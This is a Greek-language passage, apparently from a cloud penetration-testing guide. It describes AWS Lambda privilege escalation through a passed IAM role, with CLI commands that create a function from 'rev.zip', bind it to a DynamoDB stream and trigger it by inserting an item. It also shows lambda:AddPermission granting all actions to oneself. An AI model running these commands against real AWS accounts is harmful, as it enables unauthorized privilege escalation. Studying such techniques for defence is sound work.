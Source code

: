 Αντί να εκτελούν απευθείας τη Lambda, ο χρήστης δημιουργεί ή χρησιμοποιεί έναν υπάρχοντα πίνακα DynamoDB, συνδέοντάς τον με τη Lambda μέσω ενός χαρτογραφήματος πηγής συμβάντος. Αυτή η ρύθμιση εξασφαλίζει ότι η συνάρτηση Lambda ενεργοποιείται αυτόματα με την εισαγωγή ενός νέου στοιχείου στον πίνακα, είτε από την ενέργεια του χρήστη είτε από άλλη διαδικασία, εκτελώντας έτσι έμμεσα τη συνάρτηση Lambda και εκτελώντας τον κώδικα με τα δικαιώματα του περασμένου ρόλου IAM.
```bash
aws lambda create-function --function-name my_function \
--runtime python3.8 --role <arn_of_lambda_role> \
--handler lambda_function.lambda_handler \
--zip-file fileb://rev.zip
```
Αν το DynamoDB είναι ήδη ενεργό στο περιβάλλον του AWS, ο χρήστης χρειάζεται μόνο **να καθιερώσει την αντιστοίχιση πηγής συμβάντος** για τη λειτουργία Lambda. Ωστόσο, αν το DynamoDB δεν χρησιμοποιείται, ο χρήστης πρέπει **να δημιουργήσει έναν νέο πίνακα** με ενεργοποιημένη τη ροή:
```bash
aws dynamodb create-table --table-name my_table \
--attribute-definitions AttributeName=Test,AttributeType=S \
--key-schema AttributeName=Test,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```
Τώρα είναι δυνατό να **συνδέσετε τη Lambda λειτουργία με τον πίνακα DynamoDB** με τον **δημιουργία εκχώρησης πηγής συμβάντος**:
```bash
aws lambda create-event-source-mapping --function-name my_function \
--event-source-arn <arn_of_dynamodb_table_stream> \
--enabled --starting-position LATEST
```
Με τη Lambda λειτουργία που συνδέεται με τη ροή του DynamoDB, ο επιτιθέμενος μπορεί **έμμεσα να ενεργοποιήσει τη Lambda ενεργοποιώντας τη ροή του DynamoDB**. Αυτό μπορεί να επιτευχθεί **εισάγοντας ένα στοιχείο** στον πίνακα του DynamoDB:
```bash
aws dynamodb put-item --table-name my_table \
--item Test={S="Random string"}
```
**Πιθανή Επίδραση:** Άμεση ανύψωση προνομίων στον ρόλο υπηρεσίας lambda που καθορίζεται.

### `lambda:AddPermission`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί **να χορηγήσει στον εαυτό του (ή σε άλλους) οποιεσδήποτε άδειες** (αυτό δημιουργεί πολιτικές βασισμένες στον πόρο για τη χορήγηση πρόσβασης στον πόρο):

{% code overflow="wrap" %}
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda lambda invoke --function-name <func_name> /tmp/outout
```
{% endcode %}
